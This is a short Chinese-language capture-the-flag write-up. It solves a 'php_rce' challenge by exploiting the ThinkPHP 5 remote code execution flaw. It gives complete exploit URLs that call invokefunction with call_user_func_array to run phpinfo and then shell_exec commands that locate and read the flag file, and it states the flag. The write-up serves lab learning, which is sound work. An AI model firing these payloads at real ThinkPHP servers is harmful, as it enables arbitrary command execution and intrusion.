 # php_rce
## 题目
![1.png](https://i.loli.net/2020/06/02/OxL9SIYuwn3CA8f.png)

## 思路
首先看到ThinkPHP V5，发现在vulhub找到其存在漏洞  
+ [ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/thinkphp/5-rce/README.zh-cn.md "ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞")  

## 漏洞复现
直接访问`http://your-ip:port/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` ，即可执行phpinfo：  

![2.png](https://github.com/vulhub/vulhub/raw/master/thinkphp/5-rce/1.png)  
那么直接找flag看看，上Linux命令`find / -name "*flag*"`构建出如下url:`http://your-ip:port/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=find%20/%20-name%20%22*flag*%22`；看到最后一行`/flag`，发现flag在根目录下  

![3.png](https://i.loli.net/2020/06/02/THWej2AC3otulgL.png)  

最后`cat /flag`可以看到flag为`flag{thinkphp5_rce}`,构建出如下url:
`http://your-ip:port/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cat%20/flag`
## 总结
本题为ThinkPHP旧版本的漏洞利用。
